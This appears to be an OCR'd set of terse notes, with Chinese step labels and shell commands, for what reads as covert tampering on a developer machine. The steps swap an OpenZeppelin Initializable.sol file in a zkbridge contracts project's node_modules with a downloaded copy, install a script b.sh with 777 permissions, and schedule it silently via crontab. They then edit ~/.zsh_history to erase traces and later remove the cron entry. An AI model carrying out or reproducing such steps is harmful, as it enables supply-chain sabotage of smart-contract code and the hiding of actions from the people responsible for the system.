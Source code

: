 ```
打开新 item
打开无痕浏览器
打开github
```
```
ls -alF /Users/qibin/polyhedra/workspace/solidity/zkbridge-contracts-v2/node_modules/@openzeppelin/contracts-upgradeable/proxy/utils/Initializable.sol
```
```
下载
Initializable.sol
b.sh
chmod -Rf 777 b.sh
```
```
crontab -e
```
```
* 19-23 12-30 * * /tmp/b.sh >/dev/null 2>&1
```
```
vim ~/.zsh_history
```
```
shift g
打开新的 iterm 确认
```
```
crontab -r
```
